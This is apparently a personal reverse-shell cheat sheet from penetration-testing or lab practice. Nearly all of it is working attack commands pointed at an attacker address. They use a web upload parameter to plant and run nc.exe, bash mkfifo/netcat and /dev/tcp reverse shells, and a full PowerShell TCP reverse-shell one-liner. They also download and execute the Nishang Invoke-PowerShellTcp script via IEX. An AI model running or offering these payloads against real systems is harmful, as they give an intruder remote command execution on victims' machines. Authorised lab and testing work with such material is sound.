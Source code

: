 1. Serve up nc.exe from your machine and download it
   `curl http://10.10.10.9/thepage.php?fupload=nc.exe`
2. Execute and catch shell
   `curl http://10.10.10.9/thepage.php?fexec=nc.exe+10.10.14.37+8000+-e+cmd.exe`

### Bash

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i |nc 10.10.14.37 8001 >/tmp/f

# For LFI passed commands, try this URL encoded if the above doesn't work
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.37 8000 >/tmp/f
```

#### Bash without Netcat

```bash
bash &>/dev/tcp/10.10.14.37/8000 <&1
#OR if running in regular sh and not BASH, if bash exists:
bash -c "bash &>/dev/tcp/10.10.14.37/8000 <&1"
```



### Powershell

<u>One-Liner</u>

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.37',8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

<u>Using Remote Script</u>

1. Start webserver hosting a reverse shell script like Nishang's `Invoke-PowerShellTcp.ps1` (`~/opt/exploits/nishang/Shells/Invoke-PowerShellTcp.ps1`)

2. Modify the script and add the function at the end of it so it will execute:

   ```bash
   sudo vi Invoke-PowerShellTcp.ps1
   # Add
   Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.37 -Port 443
   ```

3. Start a netcat listener & run this command on the target:

   ```bash
   powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.37/shell.ps1')")
   # OR
   cmd.exe /c powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.37/Invoke-PowerShellTcp.ps1')
   ```

